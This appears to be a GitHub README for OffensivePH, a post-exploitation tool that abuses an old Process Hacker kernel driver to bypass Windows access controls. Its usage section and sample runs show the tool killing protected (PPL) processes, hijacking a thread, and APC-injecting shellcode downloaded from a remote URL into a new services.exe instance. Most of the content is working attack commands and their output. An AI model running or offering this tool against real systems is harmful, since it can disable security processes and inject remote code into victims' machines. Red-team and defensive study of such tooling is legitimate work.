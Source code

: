 # offensiveph

OffensivePH is a post-exploitation tool that utilizes an old Process Hacker driver to bypass several user-mode access controls. 

## Usage
- Compile Printjacker with VS2019 (tested). 
- Execute with Admin privileges.
```
offensivph.exe [-kill|-peb|-hijack|-apcinject] [<PID>] [<URL>]
	-kill		: Kill process (can kill PPLs)
	-peb		: Read PEB of a process
	-hijack		: Inject shellcode using thread execution hijacking
	-apcinject	: Inject shellcode into a new services.exe (WinTCB-PPL) instance
```
- Kill processes
```
> offensiveph.exe -kill 8228
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[*] Trying to terminate pid: 8228
[+] KphTerminateProcess is SUCCESSFUL
[*] Service and file are removed
```
- Inject shellcode by using Hijack Thread execution 
```
> offensiveph.exe -hijack 8412 http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Connecting to URL for downloading payload
[+] Process 8412 thread is hijacked to execute payload
[*] Service and file are removed
```
- Inject shellcode into a new services.exe instance
```
> offensiveph.exe -apcinject http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Process 652 token is duplicated as Impersonation Token!
[+] Connecting to URL for downloading payload
[+] Protected Shellcode Host Process: 6520
[*] Service and file are removed
```

## References
This repo contains lots of codes and inspration from original Process Hacker code. 
- https://github.com/processhacker/processhacker
